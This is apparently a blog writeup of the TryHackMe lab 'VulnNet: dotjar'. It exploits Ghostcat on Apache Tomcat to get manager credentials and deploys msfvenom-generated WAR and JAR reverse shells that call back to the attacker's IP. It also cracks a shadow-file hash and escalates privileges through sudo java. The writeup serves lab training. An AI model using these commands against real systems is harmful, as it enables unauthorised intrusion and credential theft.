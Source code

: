```yaml
---
title: "VulnNet: dotjar TryHackMe"
layout: post
date: 2023-11-22 19:00
tag: 
- TryHackMe
- Pentesting
- VulnNet
- Linux
- Java
- Ghostcat
- Apache Tomcat
- AJP
image: https://tryhackme-images.s3.amazonaws.com/room-icons/599fe941d59b03cfd775b9db850af119.png
headerImage: true
writeups: true
hidden: true # don't count this post in blog pagination
description: "A meduim TryHackMe box, with basic web enumeration and API fuzzing."
category: project
author: johndoe
externalLink: false
star: false
---
```


# Overview

VulnNet dotjar is a java focused machine that is vulnerable to Ghostcat, We used this vulnerability to find some credentials which we used to upload a malicious war file what gives us remote code execution on the webserver. The root part was about creating a java reverse shell which will be executed as root what gives us a root shell.

---

# Nmap

```bash
nmap -A -T4 10.10.203.123
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-24 12:01 +01
Nmap scan report for 10.10.203.123
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http    Apache Tomcat 9.0.30
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
```

In the nmap scan we see that we have only two open ports (8009 & 8080). The port 8080 has the Apache Tomcat service running, which is an implementation of the Java Servlet which provides a pure Java HTTP web server environment in which Java code can run. And the AJP protocol is running on port 8009 which is used by Tomcat to communicate with the servlet container that sits behind the webserver using TCP connections.

>_Java Servlet_ is a class that extends the capabilities of the servers and responds to the incoming requests.

Here on port 8080, I cannot access the Host Manager portal since I don't have any credentials yet :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124121228.png>)

So I went to see if this version of Tomcat is vulnerable, and yet it is vulnerable to ghostcat vulnerability.
An attacker could exploit this vulnerability to read web application files. In instances where the vulnerable server allows file uploads, an attacker could upload malicious JSP code and trigger this vulnerability to gain RCE.

[https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat](https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat)

The above exploit didn't work for me for some reason, so I used **Metasploit** to exploit this vulnerability :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124122116.png>)

I set the required fields and run the exploit, boom I got valid credentials :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124121942.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124122035.png>)

Now I can login and access the Host Manager portal :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124121906.png>)

I directly thought about uploading a malicious war file and gain a remote shell on the webserver :

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.9.1.117 LPORT=9999 -f war > shell.war
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124124134.png>)

Using curl, I can upload the generated malicious file using the --upload-file option :

```bash
curl -u 'webdev:<REDACTED>' http://10.10.203.123:8080/manager/text/deploy?path=/myrevshell --upload-file shell.war
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124124152.png>)

And with the bellow command I can see the uploaded revshell :

```bash
curl -u 'webdev:<REDACTED>' http://10.10.203.123:8080/manager/text/list
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124124343.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124124211.png>)

And I got a shell as **web** user :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124124055.png>)

# web -> jdk-admin

While trying to escalate, I found a shadow backup file in the */var/backups* directory, so I downloaded it to my local machine :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124134601.png>)

The shadow file contains hashes of users, I couldn't crack root's hash, only the jdk-admin's hash was crackable : 

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124135021.png>)

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124135111.png>)

And I am the jdk-admin now, I can read the user flag :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124135925.png>)

# PE

Checking the privileges of my current user I found that I can run the java command as root on any jar file :

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124135956.png>)

So I directly thought about creating a jar reverse shell and upload it to the machine and then I will get a shell as root :

```bash
msfvenom -p java/shell_reverse_tcp LHOST=10.9.1.117 LPORT=4444 -f jar > exp.jar
```

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124134722.png>)

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124140203.png>)

And yes I am root!

![Alt text](<../../../assets/images/THMPics/Pasted image 20231124134739.png>)

<br/>

# MACHINE PWNED!

<br/>

And that was it, I hope you enjoyed the writeup. If you have any questions you can [Contact Me](https://www.linkedin.com/in/hichamouardi).

<p>Happy Hacking!</p>